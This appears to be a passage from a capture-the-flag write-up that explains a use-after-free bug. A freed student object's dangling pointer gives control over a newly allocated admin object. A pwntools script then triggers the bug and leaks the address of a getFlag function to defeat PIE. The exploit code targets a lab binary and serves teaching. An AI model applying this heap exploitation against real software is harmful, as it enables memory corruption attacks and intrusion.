 ```
pointer
|
V
+-------+
|student|
+-------+
```

okay, so we allocate a student object on the heap, lets free it:

```
pointer
|
V
```

well now its gone, but its pointer still remains right? we can still control this, now lets allocate an admin

```
pointer
|
V
+-------+
| admin |
+-------+
```

oh and would you look at that, it seems like we have complete control over the admin object. Since we control
this pointer, we can read and write anywhere onto this struct/object, and since it includes function pointers
to getFlag, we are able to leak it's address and also find the base address of our binary.

first we need to make sure this leak works, here is the script to replicate the leak, and overwrite the admin object:


```py
#!/usr/bin/env python3
from pwn import *
from sys import argv,exit
context(arch='amd64',os='linux',binary='./main')
libc=ELF("./libc.so.6",checksec=False)
if len(argv)>1 and argv[1]=="-r":
    p=remote("ubuntu.box",9999) # vm
else:
    p=process()
s=lambda x,r="":p.sendlineafter(str(r),str(x)) if r else p.sendline(str(x))

# leak get flag
def PIE_leak():
    # create dangling pointer
    s(2,":")
    s("A"*4,":")
    s(7,":")
    # allocate admin, and we can do anything with it
    s(1,":")
    s(5,":")
    if p.readuntil("name is ",timeout=3):
        # p.interactive()
        return int.from_bytes(p.readuntil(b"\n").strip(b"\n"),"little")
    else:
        log.warning("could not leak, please restart script :(")
        exit(1)
pie_leak = PIE_leak()
log.info("Leaked address of getFlag: %s"%hex(pie_leak))
s(4,":")
```